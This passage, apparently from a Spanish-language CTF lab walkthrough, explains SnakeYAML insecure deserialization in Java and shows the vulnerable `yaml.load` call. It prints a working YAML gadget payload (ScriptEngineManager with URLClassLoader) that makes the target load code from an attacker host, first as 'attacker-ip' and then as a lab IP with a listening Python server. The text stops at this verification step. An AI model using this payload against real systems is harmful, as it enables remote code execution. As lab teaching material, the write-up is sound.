 Jmmm interesante, investiguemos como podemos interactuar con esto...

Bueno, leyendo sobre `YAML exploit` nos encontramos con un artículo muy llamativo hablando sobre deserialización insegura en él parseo de archivos `YAML`. Pero antes, que es deserialización rápidamente:

> Deserialización: Proceso por el cual pasan un conjunto de bytes para convertirse en un objeto entendible. La serialización seria pasar ese objeto a bytes para almacenarlos en memoria, a bases de datos, etc.

En la deserialización es donde esta la vulnerabilidad, ya que intentara pasar los bytes a objetos y ahí es donde podemos decirle que haga lo que queramos.

* [Deserialización insegura](https://seguridad-ofensiva.com/blog/owasp-top-10/owasp-top-8/).
* [Aprende que es deserialización insegura](https://hackingprofessional.github.io/Security/Aprende-que-es-Deserializacion-Insegura-OWASP-VII/).

Ahora, volviendo al artículo (dire mucho <<articulo>> en esta sección :P):

* [SnakeYaml Deserialization exploited](https://medium.com/@swapneildash/snakeyaml-deserilization-exploited-b4a2c5ac0858).

Nos habla de una deserialización insegura en la cual podemos conseguir **RCE** en la máquina que lo esté corriendo. Profundicemos en la explicación:

Básicamente es explotada cuando una página tiene la funcionalidad de parsear (formatear/analizar) un archivo o sintaxis `YAML`. Si el proceso directamente en el input genera él parseo llamando la función `yaml.load` sin previa sanitización, podemos conseguir ejecucion remota de comandos en el sistema. El artículo nos muestra como sería la definición de la función `yaml.load` en la lógica:

```java
Yaml yaml = new Yaml();
Object obj = yaml.load(<--user input data-->);
```

¿Pero como podemos validar que efectivamente podemos explotar esta deserialización? Bien, el creador del artículo uso un payload de un `pdf` el cual nos ayuda con esto:

```yml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```

Primero debemos levantar un servidor web, usaré `Python`:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Ahora en la web colocamos el payload, cambiamos nuestra IP y puerto y vemos si obtenemos alguna petición:

```yml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.51:8000/"]
  ]]
]
```

